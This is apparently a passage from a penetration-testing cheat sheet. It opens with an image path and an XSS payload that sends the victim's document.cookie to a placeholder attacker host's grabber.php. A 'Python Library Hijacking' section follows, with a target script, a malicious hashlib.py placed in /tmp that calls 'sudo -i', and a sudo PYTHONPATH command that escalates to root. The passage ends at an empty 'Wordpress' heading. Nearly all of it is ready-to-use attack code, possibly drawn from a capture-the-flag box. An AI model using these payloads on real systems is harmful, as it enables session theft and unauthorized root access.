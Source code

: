 ```html
<script>document.location='http://LOCAL_ATTACKER_IP:PORT/grabber.php?c='+document.cookie</script>
```

# Python Library Hijacking

>[!quote]
>If we have a python script, executed as root, importing a module we can hijack the code so it loads our own created module with the same module name.

```python
# Source code of hasher.py

import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())

def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We create our own hashlib.py and save it to **/tmp** :

```python
import os
os.system('sudo -i')
```

And run the following bash command :

```bash
sudo PYTHONPATH=/tmp  /usr/bin/python3 /home/hazel/hasher.py
```

# Wordpress
